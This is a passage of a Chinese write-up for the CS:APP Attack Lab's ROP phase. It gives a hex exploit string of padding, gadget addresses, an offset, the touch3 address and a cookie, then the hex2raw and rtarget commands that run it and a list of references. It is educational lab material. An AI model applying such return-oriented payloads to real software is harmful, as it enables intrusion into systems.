 对应的 exploit stirng 存储在 exploit.23.txt：

```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00		/* gadget1 地址 */
a2 19 40 00 00 00 00 00 	/* gadget2 地址 */
cc 19 40 00 00 00 00 00 	/* gadget3 地址 */
48 00 00 00 00 00 00 00 	/* offset */
dd 19 40 00 00 00 00 00 	/* gadget4 地址 */
34 1a 40 00 00 00 00 00 	/* gadget5 地址 */
13 1a 40 00 00 00 00 00 	/* gadget6 地址 */
d6 19 40 00 00 00 00 00 	/* gadget7 地址 */
a2 19 40 00 00 00 00 00 	/* gadget8 地址 */
fa 18 40 00 00 00 00 00 	/* touch3 地址 */
35 39 62 39 39 37 66 61 00	/* cookie 字符串表示 */
```



#### 运行结果

执行命令 `./hex2raw < exploit.23.txt > exploit-raw.23.txt`，`./rtarget -q < exploit-raw.23.txt`。

<img src="https://gitee.com/dq-agj/imags/raw/master/img/image-20230818173120892.png" alt="image-20230818173120892" style="zoom:80%;" />

------





## 参考链接

- [图文并茂-超详解 CS:APP: Lab3-Attack（附带栈帧分析） - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/339802171)
- [CSAPP - attacklab · Mcginn's Blog (mcginn7.github.io)](https://mcginn7.github.io/2020/02/19/CSAPP-attacklab/)
- [【读厚 CSAPP】III Attack Lab | 小土刀 2.0 (wdxtub.com)](https://wdxtub.com/csapp/thick-csapp-lab-3/2016/04/16/)
- [CSAPP实验之attack lab - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/60724948)
- [《深入理解计算机系统》配套实验：Attacklab - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/31643444)
- [CSAPP-Labs/notes/attack.md at master · Exely/CSAPP-Labs · GitHub](https://github.com/Exely/CSAPP-Labs/blob/master/notes/attack.md)